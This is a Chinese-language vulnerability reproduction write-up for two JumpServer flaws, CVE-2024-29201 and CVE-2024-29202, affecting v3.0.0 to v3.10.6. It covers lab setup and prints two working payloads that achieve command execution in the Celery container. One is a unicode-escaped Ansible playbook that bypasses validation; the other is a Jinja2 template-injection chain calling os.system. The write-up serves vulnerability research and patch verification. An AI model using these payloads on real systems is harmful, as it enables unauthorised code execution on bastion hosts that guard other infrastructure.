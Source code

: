 ## JumpServer(CVE-2024-29201)远程代码执行漏洞&(CVE-2024-29202)Jinin2模板注入漏洞

JumpServer 是广受欢迎的开源堡垒机，是符合 4A 规范的专业运维安全审计系统。

CVE-2024-29201 远程代码执行漏洞，该漏洞可绕过 JumpServer 的 Ansible 中的输入验证机制，在 Celery 容器中执行任意代码
CVE-2024-29202 Jinin2 模板注入漏洞，该漏洞是有 JumpServer 的 Ansible 中存在 Jinja2 模板注入，在 Celery 容器中执行任意代码。

##  影响版本
```v3.0.0 <= JumpServer <= v3.10.6```

## 环境搭建

首先下载官方提供的脚本https://resource.fit2cloud.com/jumpserver/jumpserver/releases/latest/download/quick_start.sh，下载后编辑 quick_start.sh，将脚本中的 VERSION 修改为存在漏洞版本，如：V3.10.6。如下图所示：

![image](https://github.com/wy876/POC/assets/139549762/8c7db9cf-a5e9-442c-9538-eae5eafd4fcd)

等待服务启动，启动完成后访问 http://ip/

![image](https://github.com/wy876/POC/assets/139549762/0e374e28-50ba-4905-a7ea-e8257e33a3ec)

JumpServer 默认账号密码为 admin/admin

接着进入后台添加资产，具体步骤如下图所示：

![image](https://github.com/wy876/POC/assets/139549762/995bf6d3-1d57-47a1-8194-ec4effdea392)

添加资产后需要测试是否添加成功，点击资产后面的 更多-测试 进行测试。

资产添加完成后添加用户，如下图所示：

![image](https://github.com/wy876/POC/assets/139549762/808c64ab-2daa-4080-b092-c83cb2426004)

最后为用户分配一个资产，如下图所示：

![image](https://github.com/wy876/POC/assets/139549762/f0ff0aad-8916-4ef1-800d-46b2f1725bb5)

至此环境搭建完成。

## CVE-2024-29201

登陆创建的普通用户账号，进入 作业中心-模板管理 添加一个 Playbook

![image](https://github.com/wy876/POC/assets/139549762/ba8cb7cd-abcd-4a76-92a9-0c5e8e064888)

点击创建的 Playbook 名称，切换到 工作空间，输入以下内容：

```
[{
     "name": "RCE playbook",
     "hosts": "all",
     "tasks": [
       {
         "name": "this runs in Celery container",
         "shell": "id > /tmp/pwnd",
         "\u0064elegate_to": "localhost"
} ],
     "vars": {
     "ansible_\u0063onnection": "local"
     }
}]
```

![image](https://github.com/wy876/POC/assets/139549762/b78e8eed-c3a3-46c1-a5d8-ac60d68cb2a6)

点击保存。保存完成之后切换到 作业管理 页面，创建一个新的 Playbook 作业

![image](https://github.com/wy876/POC/assets/139549762/b22c7efc-22a3-46f9-a275-eec2b3ba1257)

playbook 作业详情如下：

![image](https://github.com/wy876/POC/assets/139549762/9f727ad1-2f03-497a-8592-42b7f5229561)

点击保存并运行作业

![image](https://github.com/wy876/POC/assets/139549762/c902efd5-6646-4001-957b-16e414407f75)

结果如下

![image](https://github.com/wy876/POC/assets/139549762/9169c220-a91d-471f-8bb1-69fd8c4d3fd4)

进入 Celery 容器，查看 tmp 目录下是否存在 pwnd 文件

![image](https://github.com/wy876/POC/assets/139549762/650bf6b6-d7df-4fb8-9c00-c4d62a37d1d2)


## CVE-2024-29202

与 CVE-2024-29201类似，进入 作业中心-模板管理 添加一个 Playbook，在 工作空间 输入的内容为：
```
- name: |
       {% for x in ().__class__.__base__.__subclasses__() %}
         {% if "warning" in x.__name__ %}
           {{
             x()._module.__builtins__["__import__"]("os").system("id > /tmp/pwnd2")
           }}
         {%endif%}
       {%endfor%}
```
添加完成后，同样进入作业管理页面创建并运行 Playbook 作业。运行结果如下

![image](https://github.com/wy876/POC/assets/139549762/9b2ded4f-2db9-4910-9831-49305e8eef51)

![image](https://github.com/wy876/POC/assets/139549762/d44f6e3d-c9bb-4e5f-9fa8-f636c6210b09)


## 漏洞来源
- https://wh0am1i.com/2024/03/30/JumpServer-CVE-2024-29201-CVE-2024-29202/
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-pjpp-cm9x-6rwj
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-2vvr-vmvx-73ch
